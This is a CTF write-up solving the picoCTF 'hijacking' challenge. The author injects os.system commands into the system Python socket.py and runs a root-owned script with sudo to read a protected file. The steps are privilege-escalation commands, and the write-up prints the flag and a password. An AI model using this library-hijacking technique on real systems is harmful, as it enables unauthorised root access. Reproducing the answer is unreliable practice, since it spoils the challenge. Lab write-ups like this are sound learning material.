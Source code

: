 ### [hijacking](https://play.picoctf.org/practice/challenge/352)

This one was tough and took me a lot of attempts :sob:

We are given access to a server that we are to connect using `ssh`. In the server, when we use `ls` command, we don't get any output. So lets use the `--all` and `--long` parameters along with the command.

```sh
ls -al
```

The output is

```sh
total 16
drwxr-xr-x 1 picoctf picoctf   20 Feb 24 16:05 .
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Feb 24 16:05 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```

We are particularly interested in `.server.py`. So lets cat it.

```
cat .server.py
```

The output is

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

When we run this file, we don't get any interesting output. As the hint of the challenge says, we need to find a way to access the administrator commands. We can do that by using the `os` module of python. But we can access it only from python's modules. So let's edit them. But first we gotta find where they are. We can do so by giving the following command.

    find / -name socket.py

We will eventually find the file.

    /usr/lib/python3.8/socket.py

We can edit this file and access the administrator commands. To do so, add the following line in `socket.py` code, on top.

    import os

    os.system('ls -al /challenge')

Now run the `.server.py` file with `sudo`.

    sudo python3 .server.py

We will get the following output.

```sh
total 4
d--------- 1 root root   6 Aug  4  2023 .
drwxr-xr-x 1 root root  51 Feb 24 16:05 ..
-rw-r--r-- 1 root root 103 Aug  4  2023 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Nice, now we know there's a file named `metadata.json` in that folder. Lets cat it by adding another line in `socket.py`

```python
os.system('cat challenge/metadata.json')
```

The output is

```sh
total 4
d--------- 1 root root   6 Aug  4  2023 .
drwxr-xr-x 1 root root  51 Feb 24 16:05 ..
-rw-r--r-- 1 root root 103 Aug  4  2023 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "jyQXGXxIEP"}sh: 1: ping: not found
Traceback (most recent call last):
File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Voila, the flag!

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`
